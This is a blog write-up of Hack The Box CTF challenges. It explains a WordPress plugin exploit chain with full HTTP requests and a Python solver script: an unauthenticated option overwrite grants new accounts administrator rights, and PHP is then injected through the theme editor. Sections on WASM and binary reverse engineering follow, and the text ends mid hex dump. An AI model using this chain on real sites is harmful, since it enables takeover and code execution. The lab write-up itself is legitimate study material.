

On Friday, December 19, 2025, I participated in a CTF competition hosted by Hack The Box. In this blog post, I want to share my experience and what I learned throughout the competition. I managed to solve 1 web challenge, 3 reverse engineering challenges, and 2 pwn challenges. I still have a lot to learn and continue improving my skills. So here’s my writeup solving each challenge:

## Web Exploitation — SilentSnow

### Description

```markdown
CHALLENGE NAME
SilentSnow
The Snow-Post Owl Society, is responsible for delivering all important news, including this week's festival updates and RSVP confirmations, precisely at midnight. However, a malicious code of the Tinker's growing influence—has corrupted the automation on the official website. As a result, no one is receiving the crucial midnight delivery, which means the village doesn't have the final instructions for the Festival, including the required attire, times, dates, and locations. This is a direct consequence of the Tinker’s logic of restrictive festive code, ensuring that the joyful details are locked away. Your mission is to hack the official Snow-Post Owl Society website and find a way to bypass the corrupted code to trigger a mass resent of the latest article, ensuring the Festival details reach every resident before the lights dim forever.
```

### Initial Analysis

We are provided with the **source code of a WordPress-based application** packaged in a Docker container. From the directory structure below, we can understand how the application runs, its configuration, and where potential vulnerabilities exist.

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/web/silent-snow/challenge]
└─$ tree .
.
├── custom-entrypoint.sh
├── docker-compose.yml
├── Dockerfile
├── flag.txt
└── src
    ├── plugins
    │   └── my-plugin
    │       ├── assets
    │       │   ├── script.js
    │       │   └── style.css
    │       └── my-plugin.php
    └── themes
        └── my-theme
            ├── comments.php
            ├── footer.php
            ├── functions.php
            ├── header.php
            ├── images
            │   ├── Lottie Thimblewhisk.png
            │   ├── The Festival Lights.png
            │   ├── Unraveling the Festive Threads.png
            │   └── Where Did All the Cocoa Supplies Go.png
            ├── index.php
            ├── single.php
            └── style.css
```

**Key Components:**

- **custom-entrypoint.sh** — Container initialization script that sets up the database, installs WordPress, creates users and posts, and activates the plugin and theme.
- **docker-compose.yml** — Orchestrates the WordPress container service.
- **Dockerfile** — Builds the custom WordPress image by installing WP-CLI, copying the plugin, theme, and flag file.
- **flag.txt** — The actual flag file stored in the container's filesystem.
- **src/plugins/my-plugin/** — Custom plugin.
    - **my-plugin.php** — Core plugin code.
    - **assets/script.js** — Frontend JavaScript for the plugin.
    - **assets/style.css** — Plugin styling.
- **src/themes/my-theme/** — Custom WordPress theme active on the website.
    - **header.php** — Theme header page template.
    - **footer.php** — Theme footer page template.
    - **functions.php** — Theme hooks and WordPress configuration.
    - **index.php** — Main page template.
    - **single.php** — Single post display template.
    - **comments.php** — Comment logic and display template.
    - **images/** — Static image assets.
    - **style.css** — Main theme styling.

The target is a WordPress instance running a **custom plugin (`my-plugin`)**. Let's focus on this plugin:

```php
<?php
/**
 * Plugin Name: My Plugin
 * Plugin URI: https://example.com/my-plugin
 * Description: A custom WordPress plugin for the challenge
 * Version: 1.0.0
 * Author: Challenge Author
 * Author URI: https://example.com
 * License: GPL v2 or later
 * License URI: https://www.gnu.org/licenses/gpl-2.0.html
 * Text Domain: my-plugin
 */

// Exit if accessed directly
if (!defined('ABSPATH')) {
    exit;
}

// Define plugin constants
define('MY_PLUGIN_VERSION', '1.0.0');
define('MY_PLUGIN_DIR', plugin_dir_path(__FILE__));
define('MY_PLUGIN_URL', plugin_dir_url(__FILE__));
ob_start();

function my_auto_login_new_user( $user_id ) {
    if ( defined( 'WP_CLI' ) && WP_CLI ) {
        return;
    }
    // 1. Get the user data
    $user = get_user_by( 'id', $user_id );

    // 2. Set the current user to this new user
    wp_set_current_user( $user_id, $user->user_login );
    wp_set_auth_cookie( $user_id );
    
    // 3. Redirect to home page (or any other URL)
    wp_redirect( home_url() );
    exit;
}
add_action( 'user_register', 'my_auto_login_new_user' );

/**
 * Main plugin class
 */
class My_Plugin {
    
    /**
     * Constructor
     */
    public function __construct() {
        add_action('wp_enqueue_scripts', array($this, 'enqueue_scripts'));
        add_action('admin_menu', array($this, 'add_admin_menu'));
        add_filter('body_class', array($this, 'add_body_class'));
        add_action("wp_loaded", array($this, "init"), 9999);
    }

    public function init() {
        if (isset($_GET['settings'])) {
            $this->admin_page();
            exit;
        }
    }
    /**
     * Enqueue scripts and styles
     */
    public function enqueue_scripts() {
        wp_enqueue_style('my-plugin-style', MY_PLUGIN_URL . 'assets/style.css', array(), MY_PLUGIN_VERSION);
        wp_enqueue_script('my-plugin-script', MY_PLUGIN_URL . 'assets/script.js', array('jquery'), MY_PLUGIN_VERSION, true);
    }
    
    /**
     * Add admin menu
     */
    public function add_admin_menu() {
        add_menu_page(
            'My Plugin Settings',
            'My Plugin',
            'manage_options',
            'my-plugin-settings',
            array($this, 'admin_page'),
            'dashicons-admin-generic',
            30
        );
    }

    /**
     * Add body class based on mode
     */
    public function add_body_class($classes) {
        $mode = get_option('my_plugin_dark_mode', 'light');
        if ($mode === 'dark') {
            $classes[] = 'dark-mode';
        }
        return $classes;
    }
    
    /**
     * Admin page callback
     */
    public function admin_page() {
        // Ensure user is admin
        if (!is_admin()) {
            wp_die('Access denied');
        }

        if (isset($_POST['my_plugin_action'])) {
            check_admin_referer("my_plugin_nonce", "my_plugin_nonce");
            
            $mode = sanitize_text_field($_POST['mode']);
            update_option($_POST['my_plugin_action'], $mode);
            echo '<div class="updated"><p>Mode saved.</p></div>';
        } elseif (isset($_POST['my_plugin_action']) && $_POST['my_plugin_action'] === 'reset') {
            delete_option('my_plugin_dark_mode');
            echo '<div class="updated"><p>Mode reset to default.</p></div>';
        }

        $current_mode = get_option('my_plugin_dark_mode', 'light');
        ?>
        <div class="wrap">
            <h1>My Plugin Settings</h1>
            <div class="card">
                <h2>Theme Mode</h2>
                <form method="post" action="">
                    <?php wp_nonce_field('my_plugin_nonce', 'my_plugin_nonce'); ?>
                    <table class="form-table">
                        <tr valign="top">
                            <th scope="row">Select Mode</th>
                            <td>
                                <select name="mode">
                                    <option value="light" <?php selected($current_mode, 'light'); ?>>Light Mode</option>
                                    <option value="dark" <?php selected($current_mode, 'dark'); ?>>Dark Mode</option>
                                </select>
                            </td>
                        </tr>
                    </table>
                    <p class="submit">
                        <button type="submit" name="my_plugin_action" value="my_plugin_dark_mode" class="button button-primary">Save Changes</button>
                        <button type="submit" name="my_plugin_action" value="reset" class="button button-secondary">Reset to Default</button>
                    </p>
                </form>
            </div>
        </div>
        <?php
    }
}

// Initialize the plugin
new My_Plugin();

```

From source code review we can see:

```php
add_action("wp_loaded", array($this, "init"), 9999);

public function init() {
    if (isset($_GET['settings'])) {
        $this->admin_page();
        exit;
    }
}
```

Any request with the `?settings=1` parameter directly triggers `admin_page()` without requiring authentication. This completely bypasses WordPress's normal authentication system.

```php
if (!is_admin()) {
    wp_die('Access denied');
}
```

The `is_admin()` function in WordPress does **NOT** verify user capabilities or permissions. It only checks whether the current request context is for an admin area (i.e., if the URL path starts with `/wp-admin/`). This means accessing `/wp-admin/?settings=1` will pass this check, even for unauthenticated users.

```php
if (isset($_POST['my_plugin_action'])) {
    check_admin_referer("my_plugin_nonce", "my_plugin_nonce");

    $mode = sanitize_text_field($_POST['mode']);
    update_option($_POST['my_plugin_action'], $mode);
}
```

The option name being updated is directly controlled by user input via the `my_plugin_action` parameter. This means an attacker can update **ANY** WordPress option in the database, not just the intended `my_plugin_dark_mode` option. This allows complete compromise of WordPress configuration settings, including:

- Enabling user registration (`users_can_register`)
- Changing default user roles (`default_role`)
- Modifying site URLs, admin emails, and other critical settings

### Solution

Access the hidden plugin admin page: `/wp-admin/?settings=1`



This page renders even without authentication, confirming our first vulnerability. The page appears to be a simple theme mode selector for light/dark modes.


When we submit the form and inspect the request in Burp Suite, we observe the following POST parameters:

```bash
my_plugin_nonce=c70e58cbbe
_wp_http_referer=/wp-admin/?settings=1
mode=light
my_plugin_action=my_plugin_dark_mode
```

The `my_plugin_action` parameter controls which WordPress option gets updated. We can exploit this to modify any option in the WordPress database.

```bash
my_plugin_action=<option_name>
mode=<value>
```

WordPress stores the user registration setting in the `users_can_register` option. By default, this is disabled. We'll enable it by sending the following request:

```bash
POST /wp-admin/?settings=1 HTTP/1.1
Host: 154.57.164.80:31709
Content-Length: 116
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://154.57.164.80:31709
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://154.57.164.80:31709/wp-admin/?settings=1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

my_plugin_nonce=c70e58cbbe&_wp_http_referer=%2Fwp-admin%2F%3Fsettings%3D1&mode=1&my_plugin_action=users_can_register
```

- `my_plugin_action=users_can_register` — We're targeting the user registration option
- `mode=1` — Setting it to `1` (true) enables user registration


Now anyone can create an account on the WordPress site!

While we can now register users, they would normally be created with the "Subscriber" role (lowest privilege). WordPress stores the default role in the `default_role` option. We'll change it to `administrator`:

```php
POST /wp-admin/?settings=1 HTTP/1.1
Host: 154.57.164.80:31709
Content-Length: 121
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://154.57.164.80:31709
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://154.57.164.80:31709/wp-admin/?settings=1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

my_plugin_nonce=c70e58cbbe&_wp_http_referer=%2Fwp-admin%2F%3Fsettings%3D1&mode=administrator&my_plugin_action=default_role
```

- `my_plugin_action=default_role` — We're targeting the default role option
- `mode=administrator` — Setting the default role to administrator


Perfect! Every newly created user will now automatically become an administrator. Navigate to the registration page:

```shell
http://154.57.164.80:31709/wp-login.php?action=register
```


Register with any username and email. Now visit `/wp-admin/` and we have full administrator access!


Next step is, we need to read the flag. As an administrator, we have access to the Theme Editor, which allows us to modify PHP files. This is our path to reading the flag.

```shell
http://154.57.164.80:31709/wp-admin/theme-editor.php
```

We'll modify the `header.php` file to include code that reads and displays the flag. Add the following PHP code:

```php
<?php echo file_get_contents('/flag.txt'); ?>
```

This code reads the contents of `/flag.txt` (which we saw in the Docker container's filesystem) and outputs it to the page.


Save the changes and refresh any page on the website. The flag will be displayed!


I also created the python script

```python
import requests
import re

BASE = "http://154.57.164.80:31709"
s = requests.Session()

print("[+] Fetching nonce...")
r = s.get(f"{BASE}/wp-admin/?settings=1")
nonce = re.search(r'name="my_plugin_nonce" value="([^"]+)"', r.text).group(1)

def set_option(name, value):
    data = {
        "my_plugin_nonce": nonce,
        "my_plugin_action": name,
        "mode": value
    }
    s.post(f"{BASE}/wp-admin/?settings=1", data=data)

print("[+] Enabling registration")
set_option("users_can_register", "1")

print("[+] Setting default role = administrator")
set_option("default_role", "administrator")

print("[+] Registering admin user")
s.post(f"{BASE}/wp-login.php?action=register", data={
    "user_login": "chjwoo",
    "user_email": "chjwoo@mail.com"
})

print("[+] Accessing theme editor")
editor = s.get(f"{BASE}/wp-admin/theme-editor.php?file=header.php&theme=my-theme")

wpnonce = re.search(r'name="_wpnonce" value="([^"]+)"', editor.text)
if not wpnonce:
    print("[-] wpnonce not found, trying fallback")
    flag = re.search(r'HTB\{[^}]+\}', s.get(BASE).text)
    if flag:
        print(f"\n[+] FLAG: {flag.group(0)}")
    exit()

print("[+] Injecting payload into header.php")
content = re.search(r'<textarea[^>]*name="newcontent"[^>]*>(.*?)</textarea>', editor.text, re.DOTALL)
new_content = content.group(1) + "\n<?php echo file_get_contents('/flag.txt'); ?>" if content else "<?php echo file_get_contents('/flag.txt'); ?>"

s.post(f"{BASE}/wp-admin/theme-editor.php", data={
    "newcontent": new_content,
    "action": "update",
    "file": "header.php",
    "theme": "my-theme",
    "submit": "Update File",
    "_wpnonce": wpnonce.group(1),
    "_wp_http_referer": "/wp-admin/theme-editor.php?file=header.php&theme=my-theme"
})

print("[+] Reading flag")
flag = re.search(r'HTB\{[^}]+\}', s.get(BASE).text)
if flag:
    print(f"\n{'='*60}\n[+] FLAG: {flag.group(0)}\n{'='*60}")
else:
    print("[-] Flag not found")
```

```shell
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/web/silent-snow/challenge]
└─$ python solver.py
[+] Fetching nonce...
[+] Enabling registration
[+] Setting default role = administrator
[+] Registering admin user
[+] Accessing theme editor
[-] wpnonce not found, trying fallback

[+] FLAG: HTB{s1l3nt_snow_b3y0nd_tinselwick_t0wn_960216f0a2a560ffbd6cea4ec97d2ba7}
```

### Flag

`HTB{s1l3nt_snow_b3y0nd_tinselwick_t0wn_960216f0a2a560ffbd6cea4ec97d2ba7}`

## Reverse Engineering — Clock Work Memory

### Description

```markdown
CHALLENGE NAME
Clock Work Memory
Twillie's "Clockwork Memory" pocketwatch is broken. The memory it holds, a precious story about the Starshard, has been distorted. By reverse-engineering the intricate "clockwork" mechanism of the `pocketwatch.wasm` file, you can discover the source of the distortion and apply the correct "peppermint" key to remember the truth.
```

### Initial Analysis

Let's start by checking what kind of file we're working with:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/clock-work-memory/rev_clock_work_memory]
└─$ file pocketwatch.wasm
pocketwatch.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)

```

It's a WebAssembly binary. To understand what's happening inside, we need to decompile it into a human-readable format.

```bash
wasm2wat pocketwatch.wasm -o pocketwatch.wat
```

This is the output file

```bash
(module
  (type (;0;) (func))
  (type (;1;) (func (param i32) (result i32)))
  (type (;2;) (func (param i32)))
  (type (;3;) (func (result i32)))
  (func (;0;) (type 0)
    nop)
  (func (;1;) (type 1) (param i32) (result i32)
    (local i32 i32 i32 i32)
    global.get 0
    i32.const 32
    i32.sub
    local.tee 2
    global.set 0
    local.get 2
    i32.const 1262702420
    i32.store offset=27 align=1
    loop  ;; label = @1
      local.get 1
      local.get 2
      i32.add
      local.get 2
      i32.const 27
      i32.add
      local.get 1
      i32.const 3
      i32.and
      i32.add
      i32.load8_u
      local.get 1
      i32.load8_u offset=1024
      i32.xor
      i32.store8
      local.get 1
      i32.const 1
      i32.add
      local.tee 1
      i32.const 23
      i32.ne
      br_if 0 (;@1;)
    end
    local.get 2
    i32.const 0
    i32.store8 offset=23
    block  ;; label = @1
      local.get 0
      i32.load8_u
      local.tee 3
      i32.eqz
      local.get 3
      local.get 2
      local.tee 1
      i32.load8_u
      local.tee 4
      i32.ne
      i32.or
      br_if 0 (;@1;)
      loop  ;; label = @2
        local.get 1
        i32.load8_u offset=1
        local.set 4
        local.get 0
        i32.load8_u offset=1
        local.tee 3
        i32.eqz
        br_if 1 (;@1;)
        local.get 1
        i32.const 1
        i32.add
        local.set 1
        local.get 0
        i32.const 1
        i32.add
        local.set 0
        local.get 3
        local.get 4
        i32.eq
        br_if 0 (;@2;)
      end
    end
    local.get 3
    local.get 4
    i32.sub
    local.set 0
    local.get 2
    i32.const 32
    i32.add
    global.set 0
    local.get 0
    i32.eqz)
  (func (;2;) (type 2) (param i32)
    local.get 0
    global.set 0)
  (func (;3;) (type 3) (result i32)
    global.get 0)
  (table (;0;) 2 2 funcref)
  (memory (;0;) 258 258)
  (global (;0;) (mut i32) (i32.const 66592))
  (export "memory" (memory 0))
  (export "check_flag" (func 1))
  (export "__indirect_function_table" (table 0))
  (export "_initialize" (func 0))
  (export "_emscripten_stack_restore" (func 2))
  (export "emscripten_stack_get_current" (func 3))
  (elem (;0;) (i32.const 1) func 0)
  (data (;0;) (i32.const 1024) "\1c\1b\010#{0&\0b=p=\0b~0\147\7fs'un>"))

```

Looking at the decompiled WAT file, we can see several interesting things:

1. **Exported function**: `check_flag` (function 1) - This likely validates our input
2. **Magic number**: `1262702420` is stored at offset 27
3. **XOR loop**: Processes 23 bytes of data with a repeating 4-byte key
4. **Encrypted data**: Located at offset 1024 in the data section

Here's the relevant part of the WAT file:

```bash
(func (;1;) (type 1) (param i32) (result i32)
  ...
  local.get 2
  i32.const 1262702420
  i32.store offset=27 align=1
  loop  ;; label = @1
    ...
    i32.load8_u offset=1024
    i32.xor
    ...
    i32.const 23
    i32.ne
    br_if 0 (;@1;)
  end
  ...
)

(data (;0;) (i32.const 1024) "\1c\1b\010#{0&\0b=p=\0b~0\147\7fs'un>")
```

The algorithm is straightforward:

- Load a 4-byte key
- XOR each byte of the encrypted data (23 bytes total) with the corresponding key byte (repeating)
- Compare the result with user input

### Solution

The value `1262702420` that gets stored at offset 27 is interesting. Converting to hex: `0x4B434F54`. Due to little-endian storage, this becomes `0x54 0x4F 0x43 0x4B` in memory, which spells "TOCK" in ASCII. This looks like our XOR key.

I tried to parse those escape sequences manually from the WAT file. That's a terrible idea because WAT uses octal escapes and it's easy to screw up. Instead, I just dumped the actual bytes from the WASM file:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/clock-work-memory/rev_clock_work_memory]
└─$ xxd pocketwatch.wasm | tail -20
00000060: 6675 6e63 7469 6f6e 5f74 6162 6c65 0100  function_table..
00000070: 0b5f 696e 6974 6961 6c69 7a65 0000 195f  ._initialize..._
00000080: 656d 7363 7269 7074 656e 5f73 7461 636b  emscripten_stack
00000090: 5f72 6573 746f 7265 0002 1c65 6d73 6372  _restore...emscr
000000a0: 6970 7465 6e5f 7374 6163 6b5f 6765 745f  ipten_stack_get_
000000b0: 6375 7272 656e 7400 0309 0701 0041 010b  current......A..
000000c0: 0100 0c01 010a b201 0403 0001 0b9f 0101  ................
000000d0: 047f 2300 4120 6b22 0224 0020 0241 d49e  ..#.A k".$. .A..
000000e0: 8dda 0436 001b 0340 2001 2002 6a20 0241  ...6...@ . .j .A
000000f0: 1b6a 2001 4103 716a 2d00 0020 012d 0080  .j .A.qj-.. .-..
00000100: 0873 3a00 0020 0141 016a 2201 4117 470d  .s:.. .A.j".A.G.
00000110: 000b 2002 4100 3a00 1702 4020 002d 0000  .. .A.:...@ .-..
00000120: 2203 4520 0320 0222 012d 0000 2204 4772  ".E . .".-..".Gr
00000130: 0d00 0340 2001 2d00 0121 0420 002d 0001  ...@ .-..!. .-..
00000140: 2203 450d 0120 0141 016a 2101 2000 4101  ".E.. .A.j!. .A.
00000150: 6a21 0020 0320 0446 0d00 0b0b 2003 2004  j!. . .F.... . .
00000160: 6b21 0020 0241 206a 2400 2000 450b 0600  k!. .A j$. .E...
00000170: 2000 2400 0b04 0023 000b 0b1e 0100 4180   .$....#......A.
00000180: 080b 171c 1b01 3023 7b30 260b 3d70 3d0b  ......0#{0&.=p=.
00000190: 7e30 1437 7f73 2775 6e3e                 ~0.7.s'un>
```

The encrypted data starts at file offset `0x188`:

```bash
1c 1b 01 30 23 7b 30 26 0b 3d 70 3d 0b 7e 30 14 37 7f 73 27 75 6e 3e
```

Looking at our analysis:

- We have 23 bytes of encrypted data at offset 0x188
- The algorithm uses a 4-byte repeating XOR key
- The value 1262702420 decodes to "TOCK" when stored at offset 27

Let's test if "TOCK" is our XOR key:

```python
encrypted = bytes.fromhex("1c1b0130237b30260b3d703d0b7e3014377f7327756e3e")

# Try "TOCK" as the key
key = b"TOCK"
flag = ''.join(chr(encrypted[i] ^ key[i % 4]) for i in range(len(encrypted)))
print(flag)
```

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/clock-work-memory/rev_clock_work_memory]
└─$ python test.py
HTB{w4sm_r3v_1s_c00l!!}
```

We’ve got the flag!

Alternative solution, since we know the CTF flag format always start with `HTB{`, we can use a **known-plaintext attack** to work backwards and find the actual XOR key. Here's the complete solution script:

```python
encrypted = bytes.fromhex("1c1b0130237b30260b3d703d0b7e3014377f7327756e3e")

# XOR first 4 bytes with "HTB{"
known = b"HTB{"
key = bytes([encrypted[i] ^ known[i] for i in range(4)])
print(f"Key: {key}")

# Decrypt the whole thing
flag = ''.join(chr(encrypted[i] ^ key[i % 4]) for i in range(len(encrypted)))
print(flag)
```

Running the final solver:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/clock-work-memory/rev_clock_work_memory]
└─$ python test.py  
Key: b'TOCK'
HTB{w4sm_r3v_1s_c00l!!}
```

### Flag

`HTB{w4sm_r3v_1s_c00l!!}`

## Reverse Engineering — Starshard Reassembly

### Description

```bash
CHALLENGE NAME
Starshard Reassembly
Twillie Snowdrop, the village's Memory-Minder, has discovered that one of her enchanted snowglobes has gone cloudy , its Starshard missing and its memories scrambled. To restore the scene within, you must provide the correct sequence of "memory shards". The binary will accept your attempt and reveal whether the Starshard glows once more. Can you decipher the snowglobe’s secret and bring the memory back to life?
```

### Initial Analysis

First, let's examine the binary file:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/Starshard-Reassembly/rev_starshard_reassembly]
└─$ file memory_minder 
memory_minder: Mach-O 64-bit x86_64 executable, flags:<|DYLDLINK|PIE>
```

The binary is a macOS Mach-O executable. Opening it in Ghidra and analyzing the `main.main` function reveals that this is a Go binary (identified by function names like `runtime.morestack_noctxt`, `fmt.Fprintln`, etc.).


The decompiled code shows the program creates 28 different "MemoryRune" objects (R0 through R27) and stores them in an interface array:

```c
local_1d8 = &_go:itab.main.R0,main.MemoryRune;
local_1c8 = &_go:itab.main.R1,main.MemoryRune;
local_1b8 = &_go:itab.main.R2,main.MemoryRune;
// ... continues through R27
```

The program reads user input from stdin and trims whitespace using `strings.TrimSpace()`. This suggests it's comparing the input against some expected sequence.

After identifying the 28 MemoryRune objects, I examined their structure in Ghidra. Each MemoryRune type (R0 through R27) implements an interface with two key methods:

- `Expected()` - returns the expected character for this position
- `Match(byte)` - validates if the provided byte matches the expected value

The program likely iterates through these runes in order, calling `Match()` on each one with the corresponding character from our input. If all matches succeed, we get the flag.

### Solution

To find the flag, we need to extract what each MemoryRune expects. Let's look at how to find these values. Looking at the Function Graph for `main.R0.Expected` at address `010a7212`:


The `MOV EAX, 0x48` instruction reveals that R0 expects the byte `0x48`, which is ASCII 'H'. By examining each `main.R#.Expected` function (R0 through R27) in Ghidra, we can extract the hardcoded hex values are literally the flag.

### Flag

`HTB{M3M0RY_R3W1D_SNOWGL0B3}`

## Reverse Engineering — CloudyCore

### Description

```markdown
CHALLENGE NAME
CloudyCore
Twillie, the memory-minder, was rewinding one of her snowglobes when she overheard a villainous whisper. The scoundrel was boasting about hiding the Starshard's true memory inside this tiny memory core (.tflite). He was so overconfident, laughing that no one would ever think to reverse-engineer a 'boring' ML file. He said he 'left a little challenge for anyone who did,' scrambling the final piece with a simple XOR just for fun. Find the key, reverse the laughably simple XOR, and restore the memory.
```

### Initial Analysis

We're given a file `snownet_stronger.tflite`, which is a TensorFlow Lite model file:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/cloudycore/rev_cloudy_core]
└─$ file snownet_stronger.tflite 
snownet_stronger.tflite: data
         
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/cloudycore/rev_cloudy_core]
└─$ ls -la snownet_stronger.tflite
-rwxrwxrwx 1 root root 1452 Nov 10 01:57 snownet_stronger.tflite

```

Let's check if there's anything interesting using `strings`:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/cloudycore/rev_cloudy_core]
└─$ strings snownet_stronger.tflite                               
TFL3
serving_default
output_1
output_0
in_payload
in_meta
CONVERSION_METADATA
min_runtime_version
2.19.0
1.5.0
DO      Y
$k^[)
MLIR Converted.
main
StatefulPartitionedCall_1:0
StatefulPartitionedCall_1:1
functional_2_1/meta_holder_1/MatMul
arith.constant
serving_default_in_meta:0
serving_default_in_payload:0

```

The output shows typical TFLite metadata, but nothing immediately useful. However, I noticed some unusual characters like `$k^[)` which might be encrypted data. Since the challenge description mentions "a simple XOR", I decided to examine the raw hex dump more carefully:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/cloudycore/rev_cloudy_core]
└─$ xxd snownet_stronger.tflite                       
00000000: 1c00 0000 5446 4c33 1400 2000 1c00 1800  ....TFL3.. .....
00000010: 1400 1000 0c00 0000 0800 0400 1400 0000  ................
00000020: 1c00 0000 d000 0000 2801 0000 3c02 0000  ........(...<...
00000030: 4c02 0000 5805 0000 0300 0000 0100 0000  L...X...........
00000040: 1000 0000 0000 0a00 1000 0c00 0800 0400  ................
00000050: 0a00 0000 0c00 0000 1c00 0000 5c00 0000  ............\...
00000060: 0f00 0000 7365 7276 696e 675f 6465 6661  ....serving_defa
00000070: 756c 7400 0200 0000 2400 0000 0400 0000  ult.....$.......
00000080: 5cff ffff 0400 0000 0400 0000 0800 0000  \...............
00000090: 6f75 7470 7574 5f31 0000 0000 78ff ffff  output_1....x...
000000a0: 0500 0000 0400 0000 0800 0000 6f75 7470  ............outp
000000b0: 7574 5f30 0000 0000 0200 0000 2000 0000  ut_0........ ...
000000c0: 0400 0000 9efe ffff 0400 0000 0a00 0000  ................
000000d0: 696e 5f70 6179 6c6f 6164 0000 b8ff ffff  in_payload......
000000e0: 0100 0000 0400 0000 0700 0000 696e 5f6d  ............in_m
000000f0: 6574 6100 0200 0000 3400 0000 0400 0000  eta.....4.......
00000100: dcff ffff 0800 0000 0400 0000 1300 0000  ................
00000110: 434f 4e56 4552 5349 4f4e 5f4d 4554 4144  CONVERSION_METAD
00000120: 4154 4100 0800 0c00 0800 0400 0800 0000  ATA.............
00000130: 0700 0000 0400 0000 1300 0000 6d69 6e5f  ............min_
00000140: 7275 6e74 696d 655f 7665 7273 696f 6e00  runtime_version.
00000150: 0900 0000 1001 0000 0801 0000 0001 0000  ................
00000160: cc00 0000 a400 0000 9c00 0000 9400 0000  ................
00000170: 7400 0000 0400 0000 52ff ffff 0400 0000  t.......R.......
00000180: 6000 0000 1000 0000 0000 0000 0800 0e00  `...............
00000190: 0800 0400 0800 0000 1000 0000 2400 0000  ............$...
000001a0: 0000 0600 0800 0400 0600 0000 0400 0000  ................
000001b0: 0000 0000 0c00 1800 1400 1000 0c00 0400  ................
000001c0: 0c00 0000 c958 40fc 4790 dcee 0200 0000  .....X@.G.......
000001d0: 0200 0000 0400 0000 0600 0000 322e 3139  ............2.19
000001e0: 2e30 0000 beff ffff 0400 0000 1000 0000  .0..............
000001f0: 312e 352e 3000 0000 0000 0000 0000 0000  1.5.0...........
00000200: acfc ffff b0fc ffff e2ff ffff 0400 0000  ................
00000210: 1000 0000 6b00 4000 3300 4000 7900 4000  ....k.@.3.@.y.@.
00000220: 2100 4000 0000 0600 0800 0400 0600 0000  !.@.............
00000230: 0400 0000 2400 0000 13af 8a29 1a99 0fef  ....$......)....
00000240: 5a1b 3488 e744 4f09 59bd 7613 4500 570b  Z.4..DO.Y.v.E.W.
00000250: 5d7d d024 6b5e 5b29 e300 0000 08fd ffff  ]}.$k^[)........
00000260: 0cfd ffff 10fd ffff 0f00 0000 4d4c 4952  ............MLIR
00000270: 2043 6f6e 7665 7274 6564 2e00 0100 0000   Converted......
00000280: 1400 0000 0000 0e00 1800 1400 1000 0c00  ................
00000290: 0800 0400 0e00 0000 1400 0000 1c00 0000  ................
000002a0: 9400 0000 9c00 0000 a400 0000 0400 0000  ................
000002b0: 6d61 696e 0000 0000 0200 0000 4800 0000  main........H...
000002c0: 0400 0000 ceff ffff 1000 0000 0000 0008  ................
000002d0: 0c00 0000 1000 0000 84fd ffff 0100 0000  ................
000002e0: 0500 0000 0300 0000 0000 0000 0200 0000  ................
000002f0: ffff ffff 0000 0e00 1400 0000 1000 0c00  ................
00000300: 0b00 0400 0e00 0000 1000 0000 0000 0008  ................
00000310: 0c00 0000 1000 0000 c4fd ffff 0100 0000  ................
00000320: 0400 0000 0300 0000 0100 0000 0300 0000  ................
00000330: ffff ffff 0200 0000 0400 0000 0500 0000  ................
00000340: 0200 0000 0000 0000 0100 0000 0600 0000  ................
00000350: dc01 0000 6801 0000 2801 0000 bc00 0000  ....h...(.......
00000360: 6000 0000 0400 0000 52fe ffff 0000 0001  `.......R.......
00000370: 1400 0000 1c00 0000 1c00 0000 0600 0000  ................
00000380: 3400 0000 0200 0000 ffff ffff 0900 0000  4...............
00000390: 3cfe ffff 1b00 0000 5374 6174 6566 756c  <.......Stateful
000003a0: 5061 7274 6974 696f 6e65 6443 616c 6c5f  PartitionedCall_
000003b0: 313a 3000 0200 0000 0100 0000 0900 0000  1:0.............
000003c0: aafe ffff 0000 0001 1400 0000 1c00 0000  ................
000003d0: 1c00 0000 0500 0000 3400 0000 0200 0000  ........4.......
000003e0: ffff ffff 0100 0000 94fe ffff 1b00 0000  ................
000003f0: 5374 6174 6566 756c 5061 7274 6974 696f  StatefulPartitio
00000400: 6e65 6443 616c 6c5f 313a 3100 0200 0000  nedCall_1:1.....
